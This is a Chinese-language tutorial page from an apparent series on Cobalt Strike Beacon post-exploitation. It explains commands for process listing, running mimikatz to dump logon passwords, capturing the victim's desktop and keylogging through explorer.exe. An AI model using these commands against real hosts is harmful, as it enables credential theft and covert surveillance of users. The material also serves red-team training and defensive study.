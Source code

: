 ```yaml
---
title: Cobalt Strike Beacon 基础信息搜集
id: zhfly3641
---
```


# Cobalt Strike Beacon 基础信息搜集

```
getuid `查看当前 shell 权限,如下可以看到,当前是以系统内建的 administrator 用户权限在操作` 
```

```
ps 

查看当前系统进程列表 [ 默认它已经事先把 64 位和 32 进程区分清楚了,这也是为什么不去用系统自带的 tasklist 工具的原因,比如,后面某些功能就需要你明确指明目标进程是 32 还是 64 位的 ] 
```

![image](../img/4ca2cc373164de3628c92cf57c3b05a9.png)

```
kill 3292 `杀掉指定 id 的进程,比如,杀掉这个记事本进程` 
```

```
shell query user 

执行 win 系统的各种原生 cmd 命令,命令参数正常带上执行即可 
```

```
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" 

shell 也可以用来执行自己上传的一些 命令行程序,比如,mimikatz.exe 执行完之后它会把执行的结果再回显回来 
```

![image](../img/0079e145d414067e35b31169c6ff8bce.png)

```
execute mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit" `跟 shell 功能有所不同,同样都是执行指定命令行程序,但 shell 会把执行结果回显回来,而 execute 则不会,至于到底执行成功没,还需要用其它方式来判断` 
```

![image](../img/b458f4c32b0953e4305ae53af1687792.png)

> 特别注意这个截屏功能,因为我们现在是在正常的 administrator 用户权限下操作的[标准用户环境],所以,通过 explorer.exe 就直接能截取到目标桌面,如果你当前是在 system 权限下则必须先把自己降权或切换到一个正常的正在线系统用户权限上,这样才能正常截到目标桌面

```
screenshot x64 2656 1 `对用户桌面进行截屏` 
```

![image](../img/2413e74660b572a0bc1a311415ff5dc5.png)

![image](../img/bf154b6392ab3bcc73f18dee484afcba.png)

```
keylogger 2656 x64 `常规键盘记录,同样还是指定 explorer.exe 进程进行截获` 
```

![image](../img/c58e652aa28e1fa8b79a877cb059c100.png)

> 如下,我们看到中文显示乱码了,很正常,因为我们用的这个 CobaltStrike,几乎是原生的默认也没有调整编码,所以,不用太在意,后期等整个系列全部更新完,视情况也许会给大家一个调整好的用

![image](../img/30c12349f75ca25b230767234844b7ff.png)